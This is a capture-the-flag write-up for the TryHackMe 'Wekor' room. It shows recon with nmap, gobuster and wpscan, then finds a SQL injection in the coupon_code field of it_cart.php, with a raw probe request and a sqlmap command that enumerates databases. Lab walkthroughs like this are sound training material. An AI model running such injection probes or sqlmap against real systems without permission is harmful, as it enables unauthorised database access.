 THM - Wekor
===========
**Source:** [Tryhackme.com](https://tryhackme.com/room/wekorra)

Description
-----------

- CTF challenge involving `[SQLi]` , `[WordPress]` , `[vhost enumeration]` and `[recognizing internal services]`

Gathering Information
---------------------

initial scan | `Nmap` `gobuster`
--------------------------------
- [nmap.log](initial/nmap.log)

- [vhost](initial/vhost.gobust.log)

- [dir](initial/dir.gobust.log)

- [robots.txt](http://wekor.thm/robots.txt)

```sh
echo "machineip wekor.thm site.wekor.thm" >> /etc/hosts
```

Found wordpress dir on subdomain `site.wekor.thm/wordpress/` .

Use `wpscan` just got user `admin`

(KIV : Lack of Informations)

Hunting
-------

Start manual searching on `wekor.thm/it-next/`

>Since SQLi mentioned in desc. keep focus on : `query` `param` `request` `post-form`

>Useful Tools: Burspsuite / ZAP

Found `it_cart.php` has SQL error.

```
POST /it-next/it_cart.php HTTP/1.1
Host: wekor.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1

coupon_code='  <!-- Got an error from here.
```
Using `sqlmap`.

```sh
sqlmap -u "http://wekor.thm/it-next/it_cart.php" --data="coupon_code=*" --banner --batch --dbs
```
